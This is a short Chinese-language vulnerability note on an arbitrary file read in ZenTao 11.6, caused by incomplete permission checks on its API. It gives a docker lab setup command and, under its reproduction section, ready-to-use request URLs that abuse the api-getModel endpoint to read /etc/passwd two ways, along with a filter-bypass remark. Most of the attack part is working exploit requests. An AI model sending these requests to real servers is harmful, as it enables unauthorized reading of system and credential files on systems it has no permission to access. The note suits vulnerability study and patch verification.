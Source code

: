 # 禅道 11.6 版本 文件读取漏洞

影响版本: 禅道 11.6 版本 
漏洞描述: 文件读取
Created by: 一条‘小龍龙

# 0x01 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，文件读取漏洞

# 0x02 影响版本

禅道 11.6

# 0x03 环境搭建

```
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 http://xxx.xxx.xxx.xxx:8084 安装即可

# 0x04 漏洞复现

## 方式一

```bash
http://{ip}:{port}/zentao/api-getModel-file-parseCSV-fileName=/etc/passwd#/
http://{ip}:{port}/api-getModel-file-parseCSV-fileName=/etc/passwd
```

![Untitled](image/Untitled.png)

> 注意以 `.php` `.txt` 结尾的会被 /framework/base/router.class.php中的parsePathInfo方法 过滤
> 

## 方式二

```bash
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/etc/passwd/1
```